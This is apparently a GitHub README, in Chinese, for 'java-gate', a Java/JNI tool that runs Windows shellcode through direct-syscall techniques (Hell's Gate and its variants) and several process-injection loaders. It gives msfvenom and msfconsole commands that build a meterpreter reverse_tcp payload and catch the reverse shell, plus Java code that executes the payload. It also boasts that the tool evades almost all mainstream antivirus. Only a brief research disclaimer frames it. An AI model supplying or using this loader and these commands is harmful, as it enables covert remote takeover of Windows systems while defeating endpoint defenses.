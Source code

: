 # java-gate

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/github/downloads/4ra1n/java-gate/total)
![](https://img.shields.io/github/v/release/4ra1n/java-gate)

`java-gate` 项目可以通过简单的 `Java` 代码实现 `Hell's Gate` 相关技术（直接的系统调用）

```java
byte[]shellcode=new byte[]{(byte)0xfc,(byte)0x48...};
HellsGate gate=new HellsGate(shellcode);
gate.exec();
```

并且支持多种由 `Hell's Gate` 演变而来的技术，如光环之门 `Halo's Gate` 回收之门 `Recycled Gate`
塔尔塔罗斯之门 `Tartarus Gate`
等，除了系统调用相关的功能，使用 `C` 和 `NASM/MASM` 汇编编译和构建，通过 `JNI` 在 `Java` 层调用。
另外提供了很多常见的 `Shellcode` 注入方式，例如 `APC` 注入，和远程线程注入等技术。各种底层技术都可以通过简单的 `Java` 代码做到。

## 介绍

为什么以 `java-gate` 命名：该项目主要集成了各种直接系统调用相关的技术，如地狱之门，光环之门等，因此以`Java`
之门命名，另外可以理解为 `Java` 与底层之间的一扇门。

注意：

- 该项目仅支持64位 `Windows` 和64位 `JVM` （由于 `JNI` 规定64位 `JVM` 只能加载64位 `DLL`）
- 建议使用64位的`shellcode`（例如`windows/x64/meterpreter/reverse_tcp`）
- 使用任意方式加载 `shellcode` 都有可能会导致 `JVM` 崩溃（例如 `shellcode` 没有恢复现场）
- 仅在 `JDK 8` 中测试通过，其他版本 `JDK` 不稳定

## 快速开始

(1) `Maven` 使用 `jitpack` 仓库

```xml

<repositories>
    <repository>
        <id>jitpack.io</id>
        <url>https://jitpack.io</url>
    </repository>
</repositories>
```

(2) 导入项目

```xml

<dependency>
    <groupId>com.github.4ra1n</groupId>
    <artifactId>java-gate</artifactId>
    <version>0.0.2</version>
</dependency>
```

(3) 获取 `shellcode`

这里以 `meterpreter` 为例

```shell
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f java
```

(4) 启动 `msfconsole` 监听

这里以 `meterpreter` 为例

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 0.0.0.0;set LPORT YOUR-PORT;run;"
```

(5) 编写测试程序

```java
package me.n1ar4;

import me.n1ar4.gate.core.HellsGate;

public class Main {
    public static void main(String[] args) {
        byte buf[] = new byte[]
                {
                        (byte) 0xfc, (byte) 0x48, ...
                };
        HellsGate gate = new HellsGate(buf);
        gate.exec();
    }
}
```

(6) 上线

`msfconsole` 成功上线

系统调用部分如下，使用方式和上文类似，更换类名即可

| Module        | Class                           | Description   | Optional |
|:--------------|:--------------------------------|:--------------|:---------|
| hells-gate    | me.n1ar4.gate.core.HellsGate    | Hells Gate    | /        |
| halos-gate    | me.n1ar4.gate.core.HalosGate    | Halos Gate    | /        |
| recycled-gate | me.n1ar4.gate.core.RecycledGate | Recycled Gate | /        |
| ssn-syscall   | me.n1ar4.gate.core.SSNSyscall   | SSN Syscall   | /        |
| tartarus-gate | me.n1ar4.gate.core.TartarusGate | Tartarus Gate | /        |

加载器部分如下，使用方式和上文类似，更换类名即可

| Module     | Class                                | Description               | Optional |
|:-----------|:-------------------------------------|:--------------------------|:---------|
| apc1       | me.n1ar4.gate.loader.APC1Loader      | 通过NtTestAlert的APC注入       | /        |
| apc2       | me.n1ar4.gate.loader.APC2Loader      | 简单的基于线程的APC注入             | /        |
| crt        | me.n1ar4.gate.loader.CRTLoader       | 简单的远程线程注入                 | 进程名称     |
| divide     | me.n1ar4.gate.loader.DivideLoader    | 创建进程并远程线程注入该进程            | /        |
| early-bird | me.n1ar4.gate.loader.EarlyBirdLoader | 创建新进程并APC注入               | /        |
| etwp       | me.n1ar4.gate.loader.EtwpLoader      | 基于EtwpCreateEtwThread函数注入 | /        |
| rip        | me.n1ar4.gate.loader.RIPLoader       | 修改线程上下文RIP寄存器执行shellcode  | /        |

命令行工具的使用如下

```shell
java -jar java-gate.jar [module] [shellcode-hex-string] [optional]
```

由于 `JVM` 可能崩溃，有一种创建新进程的办法执行

```shell
java -jar java-gate.jar run-new-jvm [module] [shellcode-hex-string]
```

这同样是一种思路，需要在自定义代码中运行本项目可以参考代码 `JavaGate#runNewJVM`

## 构建

在 `Release` 中存在打包好的版本，但如果你不放心，或者需要添加自己的功能，可以参考这里手动构建

请注意，该项目仅适用于 `Windows` 64位和 `JVM` 64位环境，因此只能在该环境下编译和构建

**(1) MSVC x64**

`CMake Toolchains` 使用 `MSVC x64` 工具，大部分汇编基于 `MSVC` 的 `ml64` 编译器

**(2) CMake 3.x**

`C`和汇编代码使用`CMake`编译和构建，生成 `JNI` 对应的 `DLL` 文件，建议使用 `CLion`

**(3) NASM**

大部分汇编使用 `MASM` 编译，但部分汇编使用 `NASM` 编译，需要单独下载和配置到 `PATH`

**(4) JDK 8 & Maven**

`Java` 部分代码使用 `Java 8` 和 `Maven` 进行构建，建议使用 `IDEA`

**(5) Python 3.x**

本项目使用 `Python` 做一些辅助工具，实际上不是必须的选项

## 一些测试

可过几乎所有主流杀软，某些时候会提示 `Java` 存在风险，但不影响 `meterpreter` 反弹 `shell` 上线等功能

## 参考与感谢

非常感谢以下优秀的项目提供的代码（大部分代码都参考了这些）

- https://github.com/am0nsec/HellsGate
- https://github.com/boku7/AsmHalosGate
- https://github.com/thefLink/RecycledGate
- https://github.com/trickster0/TartarusGate
- https://github.com/janoglezcampos/c_syscalls

## 免责声明

此工具仅作为网络安全攻防研究交流，请勿用于非法用途

